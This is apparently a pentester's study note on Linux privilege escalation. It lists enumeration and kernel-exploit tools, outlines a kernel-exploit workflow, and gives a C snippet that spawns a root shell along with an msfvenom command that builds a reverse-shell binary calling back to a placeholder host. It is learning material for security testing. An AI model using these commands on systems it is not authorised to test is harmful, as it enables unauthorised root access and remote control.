 \pagenumbering{gobble}

# Linux Privilege Escalation

## Tools
There are a lot of tools that can help with identifiying potential routes to gain root.
Its probably better to try and not rely too hard on scripts though, as it is important to have a solid understanding of how things work. 
Here are some common ones:

### Enum Scripts

- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LinuxPrivChecker](https://github.com/linted/linuxprivchecker)
- [BeRoot](https://github.com/AlessandroZ/BeRoot)
- [unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Find Kernel Exploits

- [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
- [searchsploit](https://github.com/offensive-security/exploitdb)

## Spawning a root shell
There are many methods of spawning a root shell, here are some common ones:

- Create a copy of /bin/bash owned by root with the SUID bit set. Exectue this file with the -p flag to gain root.
- Create a custom executable that spawns a root shell, such as the follow c code:  

    `int main(){setuid(0);system("/bin/bash -p");}`
    
- msfvenom can also be used to create reverse shell executable, which can be caught with netcat:  

    `$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`
    
- A reverse shell can also be created natively with any of the one liners from [ReverShellGenorator](https://github.com/mthbernardes/rsg)


## Kernel Exploits
Kernel exploits are one common method of gaining root access. Here is the general outline of how to find and use a kernel exloit:

1. Find the kernel version (uname -a)
2. Use searchsploit command to find exploits. You can also use [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
3. Then once you find a sutable exploit, you can find a working implementation either via github or exploitdb
4. Download, compile, and run the exploit.
5. You are now hopefully root!
